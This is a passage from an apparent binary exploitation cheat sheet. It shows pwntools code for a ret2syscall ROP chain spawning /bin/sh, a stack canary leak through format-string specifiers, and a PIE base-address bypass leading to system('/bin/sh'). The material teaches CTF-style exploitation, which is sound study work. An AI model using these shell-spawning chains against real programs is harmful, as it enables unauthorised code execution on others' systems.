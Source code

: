 ***

### VI. 🧠 Ret2syscall (Direct Syscall Execution)

When libc is unavailable, make syscalls directly with ROP:

```python
rop.raw(rop.find_gadget(['pop rax','ret'])[0])
rop.raw(59)  # execve syscall
rop.raw(rop.find_gadget(['pop rdi','ret'])[0])
rop.raw(next(elf.search(b"/bin/sh\x00")))
rop.raw(rop.find_gadget(['pop rsi','ret'])[0])
rop.raw(0)
rop.raw(rop.find_gadget(['pop rdx','ret'])[0])
rop.raw(0)
rop.raw(rop.find_gadget(['syscall','ret'])[0])
```

This invokes `execve("/bin/sh", 0, 0)` manually.

***

### VII. 🧬 Stack Canary Bypass

#### 🧠 Leak Canary

```python
payload = b"A"*offset
payload += b"%p " * 10
```

If you see something like `0x41414100`, that’s your canary.\
Rebuild payload:

```python
payload = b"A"*offset + p64(canary) + b"B"*8 + rop.chain()
```

***

### VIII. ⚙️ PIE Bypass (Dynamic Base Address)

Leak a known function’s address → calculate binary base:

```python
leak = u64(p.recv(6).ljust(8,b'\x00'))
elf.address = leak - elf.symbols['main']
```

Then rebuild ROP chain using rebased offsets:

```python
rop = ROP(elf)
rop.call('system', [next(elf.search(b'/bin/sh'))])
```

***
